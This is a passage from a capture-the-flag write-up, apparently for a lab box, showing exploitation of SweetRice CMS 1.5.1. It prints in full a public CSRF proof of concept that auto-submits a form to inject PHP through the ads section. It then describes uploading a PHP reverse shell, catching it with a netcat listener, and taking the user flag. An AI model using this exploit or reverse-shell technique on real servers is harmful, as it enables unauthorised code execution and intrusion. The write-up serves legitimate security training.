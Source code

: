 ### [Exploitation]
---
Logging in with the credentials I found earlier, I was able to identify the SweetRice version is 1.5.1. So looking back at my searchsploit results, I found this arbritary code execution exploit:
```
$ cat /usr/share/exploitdb/exploits/php/webapps/40700.html
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```
This says that you are able to upload PHP files to the ads section on the website. So, I downloaded a PHP reverse shell from [github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), changed the IP address and port as specified, and uploaded it as an ad.

![](https://Reece4.github.io/assets/LazyAdmin/phpreverseshell.png)\
I then set up a netcat listener and navigated to the URI of the newly added ad.\
![](https://Reece4.github.io/assets/LazyAdmin/phpadlistener.png)\
And just like that, we have user access! Now we can get the user flag with the command “cat user.txt”.
